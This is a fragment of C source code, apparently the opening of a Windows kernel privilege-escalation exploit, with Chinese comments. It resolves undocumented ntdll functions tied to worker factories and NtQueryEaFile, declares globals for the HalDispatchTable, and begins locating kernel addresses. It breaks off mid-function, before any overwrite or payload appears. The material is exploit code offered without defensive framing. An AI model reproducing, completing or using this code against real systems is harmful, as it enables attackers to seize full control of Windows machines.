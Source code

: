 ```
typedef struct _SYSTEM_MODULE_INFORMATION { 
    ULONG Count; 
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1]; 
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION; 
 
typedef struct _IO_STATUS_BLOCK { 
    union { 
        NTSTATUS Status; 
        PVOID    Pointer; 
    }; 
    ULONG_PTR Information; 
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK; 
 
 
__NtCreateWorkerFactory                MyNtCreateWorkerFactory = NULL; 
__NtQueryEaFile                        MyNtQueryEaFile = NULL; 
__NtQuerySystemInformation            MyNtQuerySystemInformation = NULL; 
__NtSetInformationWorkerFactory        MyNtSetInformationWorkerFactory = NULL; 
__NtQueryIntervalProfile            MyNtQueryIntervalProfile = NULL; 
__PsLookupProcessByProcessId        MyPsLookupProcessByProcessId = NULL; 
__NtQueryInformationWorkerFactory    MyNtQueryInformationWorkerFactory = NULL; 
 
DWORD MyHalDispatchTable = NULL; 
DWORD oldHaliQuerySystemInformation = NULL; 
HANDLE hWorkerFactory = NULL; 
typedef DWORD PEPROCESS; 
 
 
DWORD GetFuncAddr() 
{ 
    //获取ntdll中的导出函数 
    HMODULE hNtdll; 
    hNtdll = GetModuleHandle("ntdll.dll"); 
    if (hNtdll == NULL) 
    { 
        printf("GetModuleHandle Failed %p\n", GetLastError()); 
        return 0; 
    } 
 
    MyNtCreateWorkerFactory = GetProcAddress(hNtdll, "NtCreateWorkerFactory"); 
    MyNtQueryEaFile = GetProcAddress(hNtdll, "NtQueryEaFile"); 
    MyNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation"); 
    MyNtSetInformationWorkerFactory = GetProcAddress(hNtdll, "NtSetInformationWorkerFactory"); 
    MyNtQueryIntervalProfile = GetProcAddress(hNtdll, "NtQueryIntervalProfile"); 
    MyNtQueryInformationWorkerFactory = GetProcAddress(hNtdll, "ZwQueryInformationWorkerFactory"); 
 
    if (!MyNtCreateWorkerFactory || !MyNtQueryEaFile || !MyNtQuerySystemInformation || !MyNtSetInformationWorkerFactory || 
        !MyNtQueryIntervalProfile || !MyNtQueryInformationWorkerFactory) 
    { 
        printf("GetProcAddress Failed %p\n", GetLastError()); 
        return 0; 
    } 
 
    //获取nt基址PsLookupProcessByProcessId与HalDispatchTable地址 
    NTSTATUS Status; 
    DWORD cbNeed; 
 
    Status = MyNtQuerySystemInformation(11, NULL, 0, &cbNeed); 
    if (Status != STATUS_INFO_LENGTH_MISMATCH) 
    { 
        printf("MyNtQuerySystemInformation Failed %p\n", Status); 
        return 0; 
```